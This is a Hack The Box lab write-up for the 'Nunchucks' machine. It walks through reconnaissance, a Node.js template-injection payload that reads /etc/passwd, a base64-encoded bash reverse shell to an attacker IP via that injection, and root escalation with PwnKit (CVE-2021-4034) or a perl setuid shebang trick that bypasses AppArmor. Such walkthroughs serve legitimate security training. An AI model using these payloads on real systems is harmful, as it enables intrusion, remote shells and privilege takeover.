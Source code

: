 ```yaml
---
layout: single
title: Nunchucks  - Hack The Box
excerpt: "Nunchucks is a easy machine that explores a NodeJS-based Server Side Template Injection (SSTI) leading to an AppArmor bug which disregards the binary AppArmor profile while executing scripts that include the shebang of the profiled application."
date: 2025-06-01
classes: wide
header:
  teaser: /img2/nunchucks.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Easy
tags:
  - NodeJS SSTI (Server Side Template Injection)
  - SUID Binary Exploitation [Privilege Escalation] (OPTION 1)
  - AppArmor Profile Bypass (Privilege Escalation) (OPTION 2)
---
```



## Reconnaissance

- Nmap 

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.11.122
```

![](/img2/Pasted%20image%2020250601184103.png)

- Add domain to local DNS

```bash
echo "10.10.11.122 nunchucks.htb" >> /etc/hosts
```

- Wfuzz to find subdomains

```bash
wfuzz -c --hw=2271 -t 20 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.nunchucks.htb" https://nunchucks.htb/
```

![](/img2/Pasted%20image%2020250601194255.png)

- Add subdomain to local DNS

```bash
echo "10.10.11.122 store.nunchucks.htb" >> /etc/hosts
```

## Exploitation

- SSTI Injection

![](/img2/Pasted%20image%2020250601194519.png)

https://ctftime.org/writeup/34053

```bash
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('cat /etc/passwd')\")()}}
```

![](/img2/Pasted%20image%2020250601212336.png)

- Send reverse shell

```bash
echo -n "/bin/bash -i >& /dev/tcp/10.10.16.7/9000 0>&1" | base64
```

![](/img2/Pasted%20image%2020250601212739.png)

![](/img2/Pasted%20image%2020250601212819.png)

```bash
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjcvOTAwMCAwPiYx|base64 -d|bash')\")()}}
```

```bash
nc -nlvp 9000
```

## Post-exploitation (OPTION 1)

- Find sudoers

```bash
find / -perm -4000 2>/dev/null 
```

![](/img2/Pasted%20image%2020250601213525.png)

- CVE-2021-4034 (Pkexec Local Privilege Escalation)

```bash
wget https://github.com/ly4k/PwnKit/blob/main/PwnKit.c
python3 -m http.server
```

```bash
wget http://10.10.16.7/PwnKit.c
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
./PwnKit
```

## Post-exploitation (OPTION 2)

- Find Capabilities

```bash
getcap -r / 2>/dev/null
```

![](/img2/Pasted%20image%2020250601224157.png)

- Try to take advantage of capabilitie

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

> Maybe, we have a restriction, so we can take advantage of wrong shebang in bash script.

- Exploit shebang perl bug

```bash
#!/usr/bin/perl
use POSIX qw(setuid);
POSIX::setuid(0); 
exec "/bin/sh"; 
```

```bash
chmod +x exploit.sh
./exploit.sh
```


![](/img2/Pasted%20image%2020250601213353.png)